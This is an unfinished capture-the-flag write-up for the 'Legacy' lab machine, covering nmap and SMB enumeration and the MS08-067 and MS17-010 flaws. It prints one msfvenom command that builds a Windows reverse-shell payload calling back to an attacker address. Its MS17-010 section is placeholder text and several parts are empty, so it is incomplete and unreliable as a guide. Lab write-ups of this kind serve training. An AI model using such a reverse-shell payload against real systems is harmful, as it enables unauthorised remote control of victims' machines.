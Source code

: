 ![legacy](https://user-images.githubusercontent.com/43796175/105492077-5e740680-5c85-11eb-8224-07901100704c.jpg)

## LEGACY: Write Up

In this machine i learn about MS-08-067 (CVE-2008-4250) and MS-17-010 (CVE-2017-0143), two exploits of SMB. Exploit this vulnerability manually is simple.

# 01: Information Gathering

First of all i ran nmap with basic commands and i saw two open ports and one closed:

![nmap](https://user-images.githubusercontent.com/43796175/105779180-cf444880-5f3b-11eb-8233-22831472876c.jpg)

Then i did a deeper scan with nmap against 445 port:

![smbnmap](https://user-images.githubusercontent.com/43796175/105779606-b5573580-5f3c-11eb-87a3-a4b20fd80a5b.jpg)
![smbnmap02](https://user-images.githubusercontent.com/43796175/105779613-b7b98f80-5f3c-11eb-86f4-92610487a8b2.jpg)

Nmap showed MS-08-067 (CVE-2008-4250) and MS-17-010 (CVE-2017-0143) are very interesting to exploit.

# 02: Threat Modeling

In my mental map smbclient and smbmap were the first option to test, but without results:

![smbno](https://user-images.githubusercontent.com/43796175/105781825-3d3f3e80-5f41-11eb-8e15-73347d9c62f0.jpg)


# 03: Vulnerability Analysis

Both of these vulnerabilities (MS-08-067 & MS-17-010) gives a shell as system and each one have a metasploit module for exploit easily but i will show how exploit this manually.

# 04: Exploitation

## MS-08-067

I will use [this exploit](https://github.com/andyacer/ms08_067) for exploit the vulnerability, this script requires impacket and replace the default shellcode with some of my own. Ok, to make the shellcode i used *msfvenom*:

`
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.11 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
`

The parameters are:

* -p: Type of payload (Single payload, you can learn about this [here](https://github.com/rapid7/metasploit-framework/wiki/How-payloads-work) )
* LHOST:
* LPORT:
* EXITFUNC:
* -b:
* -f:
* -v:
* -a:
* --platform:

## MS-17-010

asdasdasd

# 05: Post-Exploitation


